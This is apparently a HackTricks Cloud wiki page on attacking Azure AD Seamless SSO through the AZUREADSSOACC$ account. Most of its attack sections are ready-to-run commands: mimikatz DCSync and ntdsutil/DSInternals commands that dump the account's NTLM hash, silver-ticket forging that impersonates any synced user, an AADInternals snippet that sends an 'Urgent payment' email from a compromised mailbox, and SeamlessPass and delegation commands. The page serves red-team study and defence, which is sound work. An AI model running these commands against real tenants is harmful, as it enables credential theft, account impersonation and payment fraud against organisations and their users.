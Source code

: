 # Az - Seamless SSO

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basic Information

[From the docs:](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-sso) Azure Active Directory Seamless Single Sign-On (Azure AD Seamless SSO) automatically **signs users in when they are on their corporate devices** connected to your corporate network. When enabled, **users don't need to type in their passwords to sign in to Azure AD**, and usually, even type in their usernames. This feature provides your users easy access to your cloud-based applications without needing any additional on-premises components.

<figure><img src="../../../../.gitbook/assets/image (275).png" alt=""><figcaption><p><a href="https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-sso-how-it-works">https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-sso-how-it-works</a></p></figcaption></figure>

Basically Azure AD Seamless SSO **signs users** in when they are **on a on-prem domain joined PC**.

It's supported by both [**PHS (Password Hash Sync)**](phs-password-hash-sync.md) and [**PTA (Pass-through Authentication)**](pta-pass-through-authentication.md).

Desktop SSO is using **Kerberos** for authentication. When configured, Azure AD Connect creates a **computer account called AZUREADSSOACC`$`** in on-prem AD. The password of the `AZUREADSSOACC$` account is **sent as plain-text to Azure AD** during the configuration.

The **Kerberos tickets** are **encrypted** using the **NTHash (MD4)** of the password and Azure AD is using the sent password to decrypt the tickets.

**Azure AD** exposes an **endpoint** (https://autologon.microsoftazuread-sso.com) that accepts Kerberos **tickets**. Domain-joined machine's browser forwards the tickets to this endpoint for SSO.

### On-prem -> cloud

The **password** of the user **`AZUREADSSOACC$` never changes**. Therefore, a domain admin could compromise the **hash of this account**, and then use it to **create silver tickets** to connect to Azure with **any on-prem user synced**:

```powershell
# Dump hash using mimikatz
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\azureadssoacc$ /domain:domain.local /dc:dc.domain.local"'
 mimikatz.exe "lsadump::dcsync /user:AZUREADSSOACC$" exit

# Dump hash using https://github.com/MichaelGrafnetter/DSInternals
Get-ADReplAccount -SamAccountName 'AZUREADSSOACC$' -Domain contoso -Server lon-dc1.contoso.local

# Dump using ntdsutil and DSInternals
## Dump NTDS.dit
ntdsutil "ac i ntds" "ifm” "create full C:\temp" q q
## Extract password
Install-Module DSInternals
Import-Module DSInternals
$key = Get-BootKey -SystemHivePath 'C:\temp\registry\SYSTEM'
(Get-ADDBAccount -SamAccountName 'AZUREADSSOACC$' -DBPath 'C:\temp\Active Directory\ntds.dit' -BootKey $key).NTHash | Format-Hexos
```

With the hash you can now **generate silver tickets**:

```powershell
# Get users and SIDs
Get-AzureADUser | Select UserPrincipalName,OnPremisesSecurityIdentifier

# Create a silver ticket to connect to Azure with mimikatz
Invoke-Mimikatz -Command '"kerberos::golden /user:onpremadmin /sid:S-1-5-21-123456789-1234567890-123456789 /id:1105 /domain:domain.local /rc4:<azureadssoacc hash> /target:aadg.windows.net.nsatc.net /service:HTTP /ptt"'
mimikatz.exe "kerberos::golden /user:elrond /sid:S-1-5-21-2121516926-2695913149-3163778339 /id:1234 /domain:contoso.local /rc4:12349e088b2c13d93833d0ce947676dd /target:aadg.windows.net.nsatc.net /service:HTTP /ptt" exit

# Create silver ticket with AADInternal to access Exchange Online
$kerberos=New-AADIntKerberosTicket -SidString "S-1-5-21-854168551-3279074086-2022502410-1104" -Hash "097AB3CBED7B9DD6FE6C992024BC38F4"
$at=Get-AADIntAccessTokenForEXO -KerberosTicket $kerberos -Domain company.com
## Send email
Send-AADIntOutlookMessage -AccessToken $at -Recipient "someone@company.com" -Subject "Urgent payment" -Message "<h1>Urgent!</h1><br>The following bill should be paid asap."
```

To utilize the silver ticket, the following steps should be executed:

1. **Initiate the Browser:** Mozilla Firefox should be launched.
2. **Configure the Browser:**
   * Navigate to **`about:config`**.
   * Set the preference for [network.negotiate-auth.trusted-uris](https://github.com/mozilla/policy-templates/blob/master/README.md#authentication) to the specified [values](https://docs.microsoft.com/en-us/azure/active-directory/connect/active-directory-aadconnect-sso#ensuring-clients-sign-in-automatically):
     * `https://aadg.windows.net.nsatc.net`
     * `https://autologon.microsoftazuread-sso.com`
3. **Access the Web Application:**
   * Visit a web application that is integrated with the organization's AAD domain. A common example is [Office 365](https://portal.office.com/).
4. **Authentication Process:**
   * At the logon screen, the username should be entered, leaving the password field blank.
   * To proceed, press either TAB or ENTER.

{% hint style="success" %}
This doesn't bypass MFA if enabled
{% endhint %}

#### Option 2 without dcsync - SeamlessPass

It's also possible to perform this attack **without a dcsync attack** to be more stealth as [explained in this blog post](https://malcrove.com/seamlesspass-leveraging-kerberos-tickets-to-access-the-cloud/). For that you only need one of the following:

* **A compromised user's TGT:** Even if you don't have one but the user was compromised,you can get one using fake TGT delegation trick implemented in many tools such as [Kekeo](https://x.com/gentilkiwi/status/998219775485661184) and [Rubeus](https://posts.specterops.io/rubeus-now-with-more-kekeo-6f57d91079b9).
* **Golden Ticket**: If you have the KRBTGT key, you can create the TGT you need for the attacked user.
* **A compromised user’s NTLM hash or AES key:** SeamlessPass will communicate with the domain controller with this information to generate the TGT
* **AZUREADSSOACC$ account NTLM hash or AES key:** With this info and the user’s Security Identifier (SID) to attack it's possible to create a service ticket an authenticate with the cloud (as performed in the previous method).

Finally, with the TGT it's possible to use the tool [**SeamlessPass**](https://github.com/Malcrove/SeamlessPass) with:

{% code overflow="wrap" %}
```
seamlesspass -tenant corp.com -domain corp.local -dc dc.corp.local -tgt <base64_TGT>
```
{% endcode %}

Further information to set Firefox to work with seamless SSO can be [**found in this blog post**](https://malcrove.com/seamlesspass-leveraging-kerberos-tickets-to-access-the-cloud/).

#### ~~Creating Kerberos tickets for cloud-only users~~ <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

If the Active Directory administrators have access to Azure AD Connect, they can **set SID for any cloud-user**. This way Kerberos **tickets** can be **created also for cloud-only users**. The only requirement is that the SID is a proper [SID](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2003/cc778824\(v=ws.10\)).

{% hint style="danger" %}
Changing SID of cloud-only admin users is now **blocked by Microsoft**.\
For info check [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
{% endhint %}

### On-prem -> Cloud via Resource Based Constrained Delegation <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

Anyone that can manage computer accounts (`AZUREADSSOACC$`) in the container or OU this account is in, it can **configure a resource based constrained delegation over the account and access it**.

```python
python rbdel.py -u <workgroup>\\<user> -p <pass> <ip> azureadssosvc$
```

## References

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso)
* [https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/](https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
* [TR19: I'm in your cloud, reading everyone's emails - hacking Azure AD via Active Directory](https://www.youtube.com/watch?v=JEIR5oGCwdg)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
